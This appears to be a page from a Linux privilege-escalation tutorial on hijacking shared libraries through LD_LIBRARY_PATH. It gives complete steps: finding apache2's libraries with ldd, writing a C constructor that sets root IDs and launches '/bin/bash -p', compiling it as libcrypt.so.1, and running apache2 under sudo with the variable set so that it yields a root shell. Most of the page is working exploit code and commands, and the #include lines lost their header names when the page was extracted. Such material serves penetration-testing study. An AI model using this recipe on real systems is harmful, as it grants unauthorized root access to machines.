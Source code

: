 # LD\_LIBRARY\_PATH

The LD\_LIBRARY\_PATH environment variable contains a set of directories where shared libraries are searched for first.

The ldd command can be used to print the shared libraries used by a program:

#### `ldd /usr/sbin/apache2`

By creating a shared library with the same name as one used by a program, and setting LD\_LIBRARY\_PATH to its parent directory, the program will load our shared library instead.

Run ldd against the apache2 program file:

#### `ldd /usr/sbin/apache2`

![](../../../../.gitbook/assets/1%20%2821%29.png)

Hijacking shared objects using this method is hit or miss. Choose one from the list and try it \(libcrypt.so.1 seems to work well\).

Create a file \(library\_path.c\) with the following contents:

#### `#include  #include  static void hijack() __attribute__((constructor));  void hijack() {  unsetenv("LD_LIBRARY_PATH");  setresuid(0,0,0);  system("/bin/bash -p");  }` 

Compile library\_path.c into libcrypt.so.1:

#### `gcc -o libcrypt.so.1 -shared -fPIC library_path.c`

Run apache2 using sudo, while setting the LD\_LIBRARY\_PATH environment variable to the current path \(where we compiled library\_path.c\):

#### `sudo LD_LIBRARY_PATH=. apache2`

![](../../../../.gitbook/assets/env4.png)











